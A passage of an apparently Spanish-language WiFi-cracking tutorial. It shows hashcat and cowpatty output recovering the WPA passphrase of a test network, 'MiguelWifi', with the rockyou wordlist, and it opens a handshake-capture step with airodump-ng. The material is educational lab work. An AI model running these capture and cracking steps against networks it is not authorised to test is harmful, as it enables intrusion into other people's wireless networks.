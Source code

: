 ```bash
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

c6bffd55e2f7:1a58184e8a68:MiguelWifi:manchester  
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: WPA-EAPOL-PBKDF2
Hash.Target......: MiguelWifi (AP:c6:bf:fd:55:e2:f7 STA:1a:58:18:4e:8a:68)
Time.Started.....: Tue Sep 12 19:02:01 2023, (1 sec)
Time.Estimated...: Tue Sep 12 19:02:02 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2044 H/s (7.15ms) @ Accel:1024 Loops:128 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6595/14344385 (0.05%)
Rejected.........: 4547/6595 (68.95%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456789 -> zaq12wsx

Started: Tue Sep 12 19:01:04 2023
Stopped: Tue Sep 12 19:02:03 2023
```

# Cracking cowpatty

Estas es otra alternativa

```bash
❯ cowpatty -f /usr/share/wordlists/rockyou.txt -r Captura-01.cap -s MiguelWifi
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "manchester".

128 passphrases tested in 0.27 seconds:  465.61 passphrases/second
```

## Espionaje 

Bueno para poder entender todo esto vamos a comenzar capturando un **handshake**

Vamos a ponernos otra vez monitoreando el **AP** y lo vamos a exportar a un fichero

```bash
❯ airodump-ng -w Captura --bssid C6:BF:FD:55:E2:F7 --channel 1 wlan0mon 
```
